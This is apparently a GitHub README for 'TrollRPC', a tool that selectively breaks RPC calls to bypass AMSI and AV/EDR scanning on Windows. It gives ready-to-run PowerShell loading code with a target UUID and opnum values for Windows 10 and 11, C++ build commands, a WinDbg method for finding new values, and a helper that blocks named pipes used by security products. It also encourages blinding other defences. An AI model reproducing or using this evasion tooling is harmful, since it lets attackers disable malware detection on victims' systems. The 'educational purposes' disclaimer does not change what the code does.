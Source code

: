 ## UPDATES
```diff
! UPDATE 09/07/2025
! For windows 11, a working $Opnum_break is 0x00
! How did i obtain this value? attached windbg to a fresh powershell and ran random commands
! windbg breakpoint ->  bp rpcrt4!NdrClientCall3 "r rdx; g"
```
```diff
! UPDATE 11/06/2025
! Added TrollPipe.cs to block CreateFileW to Files or Named Pipes because some AV/EDR use that instead of RPC
! [TrollPipe]::DisappearFileorPipe("<pipe or file name>")
```

# TrollRPC
So what is TrollRPC? Its a library to blind RPC calls based on UUID and OPNUM
![Image](https://github.com/user-attachments/assets/e0fb9e17-def8-4627-847f-7bc60449115a)
<br/> 
https://github.com/andreisss/Ghosting-AMSI released a amsi bypass by breaking NdrClientCall3 which means every subsequent RPC call (eg. some name resolution uses RPC thats why web requests to github fail) breaks which kind of makes the technique obsolete. This particular dll will only break the specific RPC call to the AV scan engine, allowing all other RPC calls through. This means you can bypass amsi for **both powershell/clr** and then continue running commands that require RPC (everything lol). 

## C#
```
[System.Reflection.Assembly]::LoadFile("C:\TrollRPC.dll") 
$UUID = "c503f532-443a-4c69-8300-ccd1fbdb3839"             # The UUID you are targetting
$Opnum = 0x5E                                              # The opnum you are targetting

#WINDOWS 10 VALUE 
$Opnum_break = 0x1F4                                       # Modify the opnum to an invalid value

#WINDOWS 11 VALUE 
$Opnum_break = 0x00                                        # Modify the opnum to an invalid value   
            
[TrollRPC]::Blind($UUID, $Opnum, $Opnum_break)
```

## C++
C++ doesnt allow dynamic input of UUID and OPNUM, have to manually tweak the asmstub to put in the OPNUM you want and recompile (easiest way)
```
#Use Visual Studio Command Prompt to compile first, alternatively, you can use the compiled dll
ml64 /c /nologo /Fo AsmStub.obj AsmStub.asm
cl /LD /O2 /MD /DNDEBUG /Zl /GS- /Gy /GF TrollRPC.cpp AsmStub.obj /link kernel32.lib user32.lib msvcrt.lib /OPT:REF /OPT:ICF /DEBUG:NONE /PDB:NONE

Running on powershell -> Right now its hardcoded for a specific AV engine ;)
Add-Type -MemberDefinition @"
    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern IntPtr LoadLibrary(string lpFileName);
"@ -Namespace Win32 -Name NativeMethods

[Win32.NativeMethods]::LoadLibrary("C:\TrollRPC.dll")
```

## Disclaimer
Should only be used for educational purposes!

## Upgrades
- Be creative, blind everything, not just amsi
- opsec not taken into consideration, its just functional








